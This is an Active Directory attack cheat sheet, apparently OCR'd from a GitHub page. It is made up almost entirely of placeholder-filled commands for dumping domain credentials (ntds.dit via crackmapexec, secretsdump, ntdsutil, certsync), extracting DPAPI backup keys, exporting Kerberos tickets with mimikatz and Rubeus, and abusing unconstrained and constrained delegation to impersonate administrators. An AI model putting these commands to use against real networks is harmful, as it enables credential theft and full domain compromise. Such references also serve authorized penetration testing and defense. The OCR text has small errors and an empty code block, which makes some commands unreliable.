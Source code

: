 ```bash
```

Domain admin
dump ntds.dit
```bash
cme smb <dcip> -u <user> -p <password> -d <domain> --ntds
secretsdump.py '<domain>/<user>:<pass>'@<ip>
ntdsutil "ac i ntds" "ifm" "create full c:\temp" q q
windows/gather/credentials/domain_hashdump
certsync -u <user> -p <password> -d <domain> -dc-ip <dcip> -ns <nsip>
```
dpapi
``` bash
dpapi.py backupkeys -hashes ':<hash>' -t Administrator@<dc_ip> --export  
# note : dpapi.py != DonPAPI

DonPAPI -pvk <domain_backupkey.pvk> - H ':<hash>' <domain>/<user>@<ip_range>
```

# Kerberos Delegation
List delegations:
```bash
ldeep ldap -u <user> -p '<password>' -d <domain> -s ldap://<dc_ip> delegations
findDelegation.py  <domain>/<user>:<password>@<ip>
```
## Unconstrained delegation

```bash
Get unconstrained delegation machines:
Get-NetComputer -Unconstrained
Get-DomainComputer -Unconstrained -Properties DnsHostName
MATCH (c:Computer {unconstraineddelegation:true}) RETURN c
MATCH (u:User {owned:true}), (c:Computer {unconstraineddelegation:true}), p=shortestPath((u)-[*1..]->(c)) RETURN p

Get tickets:
privilege::debug sekurlsa::tickets /export sekurlsa::tickets /export
Rubeus dump /service:krbtgt /nowrap
Rubeus dump /luid:0xdeadbeef /nowrap
```
# Constrained delegation
```bash
Get constrained delegation:
Get-DomainComputer -TrustedToAuth -Properties DnsHostName, MSDS-AllowedToDelegateTo
Get-DomainUser -TrustedToAuth
MATCH (c:Computer), (t:Computer), p=((c)-[:AllowedToDelegate]->(t)) RETURN p
MATCH (u:User {owned:true}), (c:Computer {name: "<MYTARGET.FQDN>"}), p=shortestPath((u)-[*1..]->(c)) RETURN p
```
```bash
With protocol transition:
Object: msDS-AllowedToDelegateTo
UAC: TRUST_TO_AUTH_FOR_DELEGATION
Rubeus hash /password:<password>

Rubeus asktgt /user:<user> /domain:<domain> /aes256:<AES 256 hash> -> Rubeus s4u /ticket:<ticket> /impersonateuser:<admin_user> /msdsspn:<spn_constrained> /altservice:CIFS /ptt

Without protocol transition:
Object: msDS-AllowedToDelegateTo
UAC: TRUSTED_FOR_DELEGATION

```